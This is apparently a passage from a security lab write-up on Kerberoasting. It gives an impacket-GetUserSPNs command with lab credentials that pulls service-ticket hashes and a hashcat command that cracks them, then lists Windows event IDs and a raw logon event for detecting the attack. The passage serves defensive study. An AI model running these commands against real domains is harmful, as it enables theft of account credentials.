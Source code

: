 Then after gaining a username and password you can execute the following command to gather the hashes that can be used to break...  (The username and password was created in a test lab that I was utilizing)

```bash
impacket-GetUserSPNs -dc-ip 10.27.20.180 4gr8.local/Annette.Hayden:3sFshRhGd -outputfile kerb.txt -request
```

Using hashcat and a wordlist we can attempt to crack the hash.  I knew the password and placed it in p.txt and then the kerb.txt was created from the GetUserSPNs command above.

```bash
hashcat -m 13100 kerb.txt p.txt
```

The output of the hashcat command shows the hash in the kerb.txt file with a colon at the end with the password that was cracked.

## Impacket - Get User SPNs (Detection)

Events seen in the Windows Event Viewer
1. EID 4624 - Successful Logon
2. EID 4768 - Kerberos Authentication Service (TGT was requested)
3. EID 4769 - Kerberos Service Ticket Operations (This will occur for each account pulled with an SPN) - (Service Ticket ST was requested)
4. EID 4634 - Logoff

EID 4624 for a successful logon for the account to the domain controller...
```xml
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event**">
<System>
  <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}" />
  <EventID>4624</EventID>
  <Version>2</Version>
  <Level>0</Level>
  <Task>12544</Task>
  <Opcode>0</Opcode>
  <Keywords>0x8020000000000000</Keywords>
  <TimeCreated SystemTime="**2024-07-08T20:16:27.988692100Z**" />
  <EventRecordID>78825</EventRecordID>
  <Correlation />
  <Execution ProcessID="612" ThreadID="2472" />
  <Channel>Security</Channel>
  <Computer>WIN-OI3P2O5BHVP.4gr8.local</Computer>
  <Security />
  </System>
<EventData>
  <Data Name="**SubjectUserSid**">S-1-0-0</Data>
  <Data Name="**SubjectUserName**">-</Data>
  <Data Name="**SubjectDomainName**">-</Data>
  <Data Name="**SubjectLogonId**">0x0</Data>
  <Data Name="**TargetUserSid**">S-1-5-21-3900604921-645817685-2682530419-1184</Data>
  <Data Name="**TargetUserName**">Annette.Hayden</Data>
  <Data Name="**TargetDomainName**">4gr8local</Data>
  <Data Name="**TargetLogonId**">0x266ffc</Data>
  <Data Name="**LogonType**">3</Data>
  <Data Name="**LogonProcessName**">NtLmSsp</Data>
  <Data Name="**AuthenticationPackageName**">NTLM</Data>
  <Data Name="**WorkstationName**">-</Data>
  <Data Name="**LogonGuid**">{00000000-0000-0000-0000-000000000000}</Data>
  <Data Name="**TransmittedServices**">-</Data>
  <Data Name="**LmPackageName**">NTLM V2</Data>
  <Data Name="**KeyLength**">0</Data>
  <Data Name="**ProcessId**">0x0</Data>
  <Data Name="**ProcessName**">-</Data>
```